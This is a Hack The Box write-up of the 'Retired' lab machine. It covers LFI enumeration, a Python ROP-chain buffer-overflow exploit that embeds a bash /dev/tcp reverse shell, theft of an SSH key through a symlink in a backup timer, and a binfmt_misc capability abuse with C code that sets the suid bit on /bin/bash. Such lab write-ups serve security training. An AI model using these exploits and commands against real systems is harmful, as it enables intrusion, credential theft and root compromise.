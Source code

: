 # HTB - Retired

## Summary

This is a great box. First we find an obvious LFI and use it to enumerate a process that is listening on the box's localhost. We then exploit that process with a buffer overflow/rop chain to get a foothold. Then, we move laterally using a systemctl timer service. Finally, the privesc to root involves using linux capabilities and an emulator application.

<br />

## Web Enumeration

There is a `page` parameter in the url. We can set this parameter by changing the url to `/index.php?page=index.php` and pressing `ctrl + u` to see the source of the index.php page. There are some cases where the php will be executed instead of displayed, depending on what function is being used to include pages, but that is not the case with this box. We can see the php source. The php source is written very poorly, and allows us to bypass a sanatize input check without doing anything if we just use burpsuite to send our request.  

`ffuf` finds `beta.html` which has an upload file feature. If we upload a file and intercept the upload request, we can see it is a POST request to `/activate_license.php`. We can look at that pages's source with our LFI. In the PHP source, we can see `socket_connect($socket, '127.0.0.1', 1337)`. So a socket is being opened to localhost port `1337`. We already know `1337` is not available to us from the outside because nmap did not find that port. 

We can grab the file `/proc/net/tcp` which has entries of the form:  
```
1: 0100007F:0539 00000000:0000 0A 00000000:00000000 00:00000000 00000000    33        0 10874 1 0000000019117793 100 0 0 10 0
```
In this case `0100007F` is a backwards hex representation of `127.0.0.1`, and `0539` is the hex representation of `1337`. So this confirms something is listening on `127.0.0.1:1337` but we don't know what  

We can grab the file `/proc/sched_debug` to see a list of all the running processes. Here we see `activate_license` with pid `420`  

We can then grab `/proc/420/cmdline` to see what command the process was run with. In this case it was `/usr/bin/activate_license 1337`  

So, we can use our LFI to grab that file with curl:  
`curl http://retired.htb/index.php\?page\=../../../../../usr/bin/activate_license -o activate_license`  

Through some dynamic and static analysis, we can find that this program is vulnerable to a buffer overflow  

If we grab `/proc/sys/kernel/randomize_va_space` we can see that it is set to `2` indicating that aslr is turned on  

`checksec activate_license` tells us that RELRO is enabled, NX is enabled, PIE is enabled, but there is no stack canary  

Grabbing `/proc/420/maps` is the equivalent of running `vmmap` in GDB. This allows us to see the base addresses of everything in the running version of activate_license.  

Using this, we can see the version of libc being used is at `/usr/lib/x86_64-linux-gnu/libc-2.31.so` we can grab this with:  
`curl http://retired.htb/index.php\?page\=../../../../../usr/lib/x86_64-linux-gnu/libc-2.31.so -o target_libc`  

If this was local, we could just do a basic `system("/bin/sh")` rop chain, but we instead need to send the full reverse shell command, so we end up with the following exploit:

```python
import struct

# From /proc/pid/maps
activate_license_base = 0x55ba18a54000
libc_base = 0x7f4a1453a000
writeable_mem = 0x55ba18a58000

# ropper --file activate_license --search "pop rdi"
pop_rdi = struct.pack("<Q", activate_license_base + 0x181b)
extra_ret = 0x181c

# ropper --file target_libc --search "mov [rax]"
# 8a0eb: mov qword ptr [rax], rdi; ret
mov_rax = struct.pack("<Q", libc_base + 0x8a0eb)

# ropper --file target_libc --search "pop rax"
# 3ee88: pop rax; ret;
pop_rax = struct.pack("<Q", libc_base + 0x3ee88)

# objdump -d target_libc | grep system
libc_system = struct.pack("<Q", libc_base + 0x48e53)

cmd = b"bash -c 'bash -i >& /dev/tcp/10.10.14.6/8686 0>&1'"

# Distance to stack base = 520
payload = b'a' * 520

# Write cmd to memory
for i in range(0, len(cmd), 8):
    payload += pop_rax
    payload += struct.pack("<Q", writeable_mem + i) # Put address of next 8 writable bytes into rax
    payload += pop_rdi
    payload += cmd[i:i+8].ljust(8, b'\x00') # put next 8 bytes of payload into rdi
    payload += mov_rax # mov qword ptr [rax], rdi

payload += pop_rdi
payload += struct.pack("<Q", writeable_mem)
payload += libc_system

with open('license.key', 'wb') as f:
    f.write(payload)
```

Sending the generated `license.key` file to the vulnerable service, and starting a nc listner on 8686, we get a shell back  

<br />

## Lateral Movement

`LinPeas` shows us there is a System timer (which is "like a cron but for services") `website_backup.timer` running every minute  

We can run `systemctl cat website_backup.service` to get information about it. We can see `User=dev` which means that this is timer runs as the user `dev`. We can also see `ExecStart=/usr/bin/webbackup`  

`cat /usr/bin/webbackup` shows us that this is a script which zips the contents of `/var/www/html` with the `-r` flag which means to recurse through subdirectories.  

What we can do is create a symlink in `/var/www/html` to point to `/home/dev/`  
When the zip command is run by the timer service, this will cause the contents of `/home/dev/` to be included in the zip  

Create the symlink:  
`ln -s /home/dev fake_link`  

The next time the timer runs, the zip will contain the contents of dev's home directory.  

We can grab dev's ssh key at `.ssh/id_rsa` copy it to our box, and then ssh with:  
`chmod 600 id_rsa`  
`ssh -i id_rsa dev@10.10.11.154`  

<br />

## Privesc

There is a directory in dev's home directory called `emuemu` which just contains the installation material for an emulator application called `emuemu`  
We can see in the `Makefile` that during install, the `cap_dac_override` capability is given to the file `/usr/lib/emuemu/reg_helper`  
`cap_dac_override` allows bypassing permissions checks on any file, so you can write to any file.  

We can confirm this with:  
`/usr/sbin/getcap /usr/lib/emuemu/reg_helper`  
and we see that it has the capability  

We have the `reg_helper.c` source, so we can see what it is doing:  
It just reads in a filename and writes it to `/proc/sys/fs/binfmt_misc/register`  

`binfmt_misc` is a linux kernel capability which allows arbitrary executable formats to be recognized and passed to certain user space applications.  
This gets very specific, but with the following, we can tell the kernel to run files with the extension `.AAA` using the interpreter `/tmp/privesc`  
Importantly, the privileges of the file being run are preserved when this happens. So we can:  
`echo :PRIVESC:E::AAA::/tmp/privesc:C | /usr/lib/emuemu/reg_helper`  
Create and compile the "interpreter" binary `/tmp/privesc`:
```C
// gcc /tmp/privesc.c -o /tmp/privesc
int main(){
        setuid(0);
        setgid(0);
        system("chmod u+s /bin/bash");
}
```
We can chose any suid binary to be our file that will be run using the interpreter, in this case I chose `su`  
`ln -s /usr/bin/su su.AAA`  

And then running `./su.AAA` causes `/tmp/privesc` to be run with the privileges of `su`, which adds the suid bit to `/bin/bash`   
`/bin/bash -p` gets us a root shell
